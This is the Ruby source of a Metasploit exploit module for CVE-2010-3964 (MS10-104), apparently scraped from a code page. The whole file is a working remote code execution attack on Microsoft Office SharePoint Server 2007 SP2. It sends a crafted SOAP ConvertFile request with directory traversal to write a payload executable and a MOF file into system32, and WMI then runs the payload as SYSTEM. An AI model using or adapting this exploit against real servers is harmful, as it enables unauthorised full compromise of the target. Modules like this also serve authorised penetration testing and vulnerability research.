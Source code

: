 EXP
---

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # web site for more information on licensing and terms of use.
    #   http://metasploit.com/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::Tcp
      include Msf::Exploit::EXE
      include Msf::Exploit::WbemExec

      def initialize
        super(
          'Name'        => 'Microsoft Office SharePoint Server 2007 Remote Code Execution',
          'Description'    => %q{
              This module exploits a vulnerability found in SharePoint Server 2007 SP2. The
            software contains a directory traversal, that allows a remote attacker to write
            arbitrary files to the filesystem, sending a specially crafted SOAP ConvertFile
            request to the Office Document Conversions Launcher Service, which results in code
            execution under the context of 'SYSTEM'.

            The module uses uses the Windows Management Instrumentation service to execute an
            arbitrary payload on vulnerable installations of SharePoint on Windows 2003 Servers.
            It has been successfully tested on Office SharePoint Server 2007 SP2 over Windows
            2003 SP2.
          },
          'Author'      => [
            'Oleksandr Mirosh', # Vulnerability Discovery and PoC
            'James Burton', # Vulnerability analysis published at "Entomology: A Case Study of Rare and Interesting Bugs"
            'juan' # Metasploit module
          ],
          'Platform'    => 'win',
          'References'  =>
            [
              [ 'CVE', '2010-3964' ],
              [ 'OSVDB', '69817' ],
              [ 'BID', '45264' ],
              [ 'MSB', 'MS10-104' ],
              [ 'URL', 'http://www.zerodayinitiative.com/advisories/ZDI-10-287/' ]
            ],
          'Targets'     =>
            [
              [ 'Microsoft Office SharePoint Server 2007 SP2 / Microsoft Windows Server 2003 SP2', { } ],
            ],
          'DefaultTarget'  => 0,
          'Privileged'     => true,
          'DisclosureDate' => 'Dec 14 2010'
        )

        register_options(
          [
            Opt::RPORT(8082),
            OptInt.new('DEPTH', [true, "Levels to reach base directory",7])
          ], self.class)
      end

      # Msf::Exploit::Remote::HttpClient is avoided because send_request_cgi doesn't get
      # the response maybe due to the 100 (Continue) status response even when the Expect
      # header isn't included in the request.
      def upload_file(file_name, contents)

        traversal = "..\\" * datastore['DEPTH']

        soap_convert_file = "<SOAP-ENV:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" "
        soap_convert_file << "xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" "
        soap_convert_file << "xmlns:SOAP-ENC=\"http://schemas.xmlsoap.org/soap/encoding/\" "
        soap_convert_file << "xmlns:SOAP-ENV=\"http://schemas.xmlsoap.org/soap/envelope/\" "
        soap_convert_file << "xmlns:clr=\"http://schemas.microsoft.com/soap/encoding/clr/1.0\" "
        soap_convert_file << "SOAP-ENV:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">" << "\x0d\x0a"
        soap_convert_file << "<SOAP-ENV:Body>" << "\x0d\x0a"
        soap_convert_file << "<i2:ConvertFile id=\"ref-1\" "
        soap_convert_file << "xmlns:i2=\"http://schemas.microsoft.com/clr/nsassem/Microsoft.HtmlTrans.IDocumentConversionsLauncher/Microsoft.HtmlTrans.Interface\">" << "\x0d\x0a"
        soap_convert_file << "<launcherUri id=\"ref-3\">http://#{rhost}:8082/HtmlTrLauncher</launcherUri>" << "\x0d\x0a"
        soap_convert_file << "<appExe id=\"ref-4\"></appExe>" << "\x0d\x0a"
        soap_convert_file << "<convertFrom id=\"ref-5\">#{traversal}#{file_name}</convertFrom>" << "\x0d\x0a"
        soap_convert_file << "<convertTo id=\"ref-6\">html</convertTo>" << "\x0d\x0a"
        soap_convert_file << "<fileBits href=\"#ref-7\"/>" << "\x0d\x0a"
        soap_convert_file << "<taskName id=\"ref-8\">brochure_to_html</taskName>" << "\x0d\x0a"
        soap_convert_file << "<configInfo id=\"ref-9\"></configInfo>" << "\x0d\x0a"
        soap_convert_file << "<timeout>20</timeout>" << "\x0d\x0a"
        soap_convert_file << "<fReturnFileBits>true</fReturnFileBits>" << "\x0d\x0a"
        soap_convert_file << "</i2:ConvertFile>" << "\x0d\x0a"
        soap_convert_file << "<SOAP-ENC:Array id=\"ref-7\" xsi:type=\"SOAP-ENC:base64\">#{Rex::Text.encode_base64(contents)}</SOAP-ENC:Array>" << "\x0d\x0a"
        soap_convert_file << "</SOAP-ENV:Body>" << "\x0d\x0a"
        soap_convert_file << "</SOAP-ENV:Envelope>" << "\x0d\x0a"

        http_request = "POST /HtmlTrLauncher HTTP/1.1" << "\x0d\x0a"
        http_request << "User-Agent: Mozilla/4.0+(compatible; MSIE 6.0; Windows 5.2.3790.131072; MS .NET Remoting; MS .NET CLR 2.0.50727.42 )" << "\x0d\x0a"
        http_request << "Content-Type: text/xml; charset=\"utf-8\"" << "\x0d\x0a"
        http_request << "SOAPAction: \"http://schemas.microsoft.com/clr/nsassem/Microsoft.HtmlTrans.IDocumentConversionsLauncher/Microsoft.HtmlTrans.Interface#ConvertFile\"" << "\x0d\x0a"
        http_request << "Host: #{rhost}:#{rport}" << "\x0d\x0a"
        http_request << "Content-Length: #{soap_convert_file.length}" << "\x0d\x0a"
        http_request << "Connection: Keep-Alive" << "\x0d\x0a\x0d\x0a"

        connect
        sock.put(http_request << soap_convert_file)
        data = ""
        read_data = sock.get_once(-1, 1)
        while not read_data.nil?
          data << read_data
          read_data = sock.get_once(-1, 1)
        end
        disconnect
        return data
      end

      # The check tries to create a test file in the root
      def check

        peer = "#{rhost}:#{rport}"
        filename = rand_text_alpha(rand(10)+5) + '.txt'
        contents = rand_text_alpha(rand(10)+5)

        print_status("#{peer} - Sending HTTP ConvertFile Request to upload the test file #{filename}")
        res = upload_file(filename, contents)

        if res and res =~ /200 OK/ and res =~ /ConvertFileResponse/ and res =~ /<m_ce>CE_OTHER<\/m_ce>/
          return Exploit::CheckCode::Vulnerable
        else
          return Exploit::CheckCode::Safe
        end
      end

      def exploit

        peer = "#{rhost}:#{rport}"

        # Setup the necessary files to do the wbemexec trick
        exe_name = rand_text_alpha(rand(10)+5) + '.exe'
        exe      = generate_payload_exe
        mof_name = rand_text_alpha(rand(10)+5) + '.mof'
        mof      = generate_mof(mof_name, exe_name)

        print_status("#{peer} - Sending HTTP ConvertFile Request to upload the exe payload #{exe_name}")
        res = upload_file("WINDOWS\\system32\\#{exe_name}", exe)
        if res and res =~ /200 OK/ and res =~ /ConvertFileResponse/ and res =~ /<m_ce>CE_OTHER<\/m_ce>/
          print_good("#{peer} - #{exe_name} uploaded successfully")
        else
          print_error("#{peer} - Failed to upload #{exe_name}")
          return
        end

        print_status("#{peer} - Sending HTTP ConvertFile Request to upload the mof file #{mof_name}")
        res = upload_file("WINDOWS\\system32\\wbem\\mof\\#{mof_name}", mof)
        if res and res =~ /200 OK/ and res =~ /ConvertFileResponse/ and res =~ /<m_ce>CE_OTHER<\/m_ce>/
          print_good("#{peer} - #{mof_name} uploaded successfully")
        else
          print_error("#{peer} - Failed to upload #{mof_name}")
          return
        end

      end

    end